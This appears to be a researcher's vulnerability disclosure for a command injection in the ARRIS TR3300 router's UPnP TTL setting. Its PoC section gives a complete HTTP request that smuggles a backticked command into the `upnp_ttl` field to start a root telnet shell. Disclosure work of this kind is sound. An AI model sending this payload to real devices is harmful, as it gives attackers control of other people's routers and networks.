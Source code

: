 # ARRIS Vulnerability

Vendor:ARRIS

Product:TR3300

Version:1.0.13(Download Link:https://arris.secure.force.com/consumers/ConsumerProductDetail?p=a0ha000000OlZ68AAF&c=SURFboard%20Routers)

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in ARRIS router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `setup.cgi` binary:

In the router's `upnp` function(`lan_sett.html`), `upnp_ttl` is directly passed by the attacker, so we can control the `upnp_ttl` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

First, accept and process the content of the field(`upnp_ttl`), and then call the function `nvram_set `to store this input.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

In `rc_apps` binary:

Eventually, in `sub_41B8E8` function, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## PoC

We set `upnp_ttl` as **`/usr/sbin/utelnetd -l /bin/sh -p 10001`**, and the router will excute it,such as:

```http
POST /setup.cgi HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 375
Origin: http://192.168.1.1
Connection: close
Referer: http://192.168.1.1/lan_sett.html
Upgrade-Insecure-Requests: 1

lan_ip=192.168.1.1&lan_mask=255.255.255.0&lan_dhcp=&dhcp_start=192.168.1.2&dhcp_end=192.168.1.254&dhcp_lease=336&domainname=TR3300&nat_mode=0&upnp_enable=&upnp_ttl=`/usr/sbin/utelnetd -l /bin/sh -p 10001`&submit=Apply&h_lan_dhcp=enable&h_dhcp_lease=336&this_file=lan_sett.html&next_file=lan_sett.html&h_nat_mode=0&h_upnp_enable=enable&h_igmp_enable=disable&todo=save&message=
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:80%;" /></div>
